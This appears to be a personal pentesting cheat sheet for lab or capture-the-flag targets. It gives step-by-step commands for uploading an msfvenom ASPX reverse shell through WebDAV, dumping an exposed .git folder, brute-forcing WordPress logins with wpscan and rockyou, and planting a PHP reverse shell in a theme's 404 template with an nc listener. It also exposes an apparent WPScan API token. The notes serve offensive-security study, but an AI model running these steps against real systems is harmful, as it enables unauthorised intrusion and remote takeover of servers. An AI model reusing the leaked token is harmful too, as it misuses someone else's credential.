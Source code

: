 #### WebDav
- if nmap scan returns `http-webdav-scan` on http port:
```
cadaver http://192.168.219.122
```
- may be prompted for creds
```
put test.txt
```
- create beforehand `echo "test" > test.txt`
- navigate to hxxp://ip:port/test.txt to see if file executes
	- if so, set up listener `nc -lvnp 80` and rev shell (if windows DC and website running IIS, likely x64 system):
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
- on cadaver shell, upload to site `put shell.aspx`
```
curl http://192.168.219.122/shell.aspx
```

---
#### Git
after adding pilgrimate.htb to /etc/hosts and rescanning with nmap should see http-git
- http-git:
	10.129.32.46:80/.git/
```
git-dumper http://pilgrimage.htb git
```
- download the .git folder

---
## Wordpress
```
wpscan --url http://internal.thm/blog -e u
```
- enumerate users
```
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```
- bruteforce passwords
```
wpscan --url http://10.10.83.3:80/webservices/wp -e ap --plugins-detection aggressive --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM
```
- `-e ap` enumerates all plugins
- will give huge output if older wp version, scroll to bottom to check for vulnerable plugins
```
wpscan --url http://192.168.109.112:81/ --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM --usernames /usr/share/nmap/nselib/data/usernames.lst --passwords /usr/share/wordlists/rockyou.txt
```
- bruteforce usernames and passwords (have not successfully used)
#### Once in WP Admin
- go to appearance > theme editor > 404 Template
- put in rev shell from https://github.com/pentestmonkey/php-reverse-shell on revshells.com as PHP PentestMonkey 
	- also try  other PHP shells
- update file
- start `nc -lvnp 6969`
- go to http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	- so copy "wp-content/themes/twentyseventeen/404.php" to url
		- find theme name on theme-editor URL
			- ex: &theme=90s-retro

---